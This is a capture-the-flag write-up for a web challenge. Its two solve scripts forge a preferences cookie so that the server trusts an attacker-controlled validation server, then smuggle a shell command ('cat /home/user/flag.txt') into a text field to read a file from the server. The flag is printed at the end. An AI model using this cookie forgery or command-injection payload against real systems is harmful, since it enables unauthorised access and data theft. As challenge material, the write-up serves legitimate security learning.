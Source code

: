 ```yaml
---
created: 2024-08-30T17:43
updated: 2024-09-01T16:00
solves: 184
points: 50
---
```


## Validation

- Calls external server for validation
- Gets public key from `/pubkey`
- Gets json data from `/`
- Basically it uses our own public key for verification
- We need to confuse the server to use our own `validation_server`
- Notice how the server will use preference's `validation_server` if debug is set?

For our own validation server we can just slightly modify the given code.

## Solve

```python [solve.py]
import base64
import json
import requests
import base64
import json

s = requests.Session()
s.cookies.set('preferences', base64.b64encode(json.dumps({
    'validation_server': 'https://tun.yun.ng/'
}).encode()).decode())
print("running..")
response = s.get("https://feature-unlocked-web-challs.csc.tf/release?debug=true")
print("running second..")
response = s.post("https://feature-unlocked-web-challs.csc.tf/feature", data={'text': '`cat /home/user/flag.txt` #'})
print(response.text)
```

```python [validation.py]
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 + 1)
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8080)
```

```flag
CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}
```
